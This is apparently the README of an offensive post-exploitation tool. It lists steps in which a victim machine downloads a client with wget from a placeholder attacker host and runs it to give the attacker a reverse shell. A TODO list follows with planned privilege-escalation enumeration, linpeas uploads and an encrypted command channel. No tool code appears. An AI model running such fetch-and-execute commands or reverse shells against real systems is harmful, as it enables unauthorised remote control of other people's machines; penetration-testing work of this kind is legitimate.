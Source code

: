 # Assumptions
- python3 exists on the server

# Steps
1. (on attacker): python3 http_server.py
2. (on victim): wget <ATTACKER_IP>:8000/victim_client_<ATTACKER_IP>.py
3. (on attacker): python3 listener.py -v <VICTIM_IP>
4. (on victim): python3 victim_client_<ATTACKER_IP>.py

# TODO
- (Medium) Fix simple reverse shell (instead of python victim client) running into EOF error
    - (Low) Create several implementations for looping reverse shells in case python isn't available
- (Low) Implement menu with list of playbooks that can be run for enumeration, privesc, etc
    - (Low) Have menu items show if an error occured of if the playbook results are already available
    - (Low) Show details about found results and what steps to take next
    - menu['show']['network']['all'] = function
    - show enumerate
      [ ] 1. Check SUID binaries
    - use enumerate 1
    - show network
      [ ] 1. Local IPv4s
      [X] 2. Connected subnets
      [ ] 3. Reachable online hosts
    - show network 2
- (Low) Upload and run linpeas.sh, save locally. Make it as part of the menu of things to run.
- (Low) Some kind of client/server written on python which allows me to send commands to the victim via an encrypted channel and he just run code locally. Implement with as little dependencies as possible (will require at least python3). Since python3 is required, maybe this isn't a great idea. Might as well just send commands to the victim directly via pwntools.
- (Low) If long running commands aren't working, echo a magic string and run recvuntil that magic string is encountered
- (Low) Better logging with colors and stuff!
